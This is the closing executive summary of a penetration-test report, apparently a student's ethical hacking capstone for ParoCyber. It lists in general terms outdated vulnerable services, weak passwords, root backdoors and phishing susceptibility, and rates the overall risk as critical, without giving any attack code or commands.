- The system runs over **20 outdated services**, several with known remote code execution vulnerabilities that have been publicly documented for over a decade.
- **Password security is non-existent** — default and trivially weak passwords allow immediate unauthorized access to all accounts.
- **Multiple backdoors** provide instant root access without any authentication, representing the highest possible risk to the organization.
- **Employees are susceptible** to phishing attacks, as demonstrated by the SET credential harvesting simulation.
- There is **no evidence of firewalling, network segmentation, or monitoring** that would detect or slow down an attacker.

**Overall Security Posture: 🔴 CRITICAL RISK**

Immediate remediation action is required. ParoCyber should treat these findings as a priority security incident and engage a qualified security team to implement the recommendations outlined in this report.

---

*Report prepared by Emmanuel [Emmanuel Selasie Aggor] | ParoCyber - Ethical Hacking Capstone Project | June 2026*  
*This report is confidential and intended solely for ParoCyber management.*
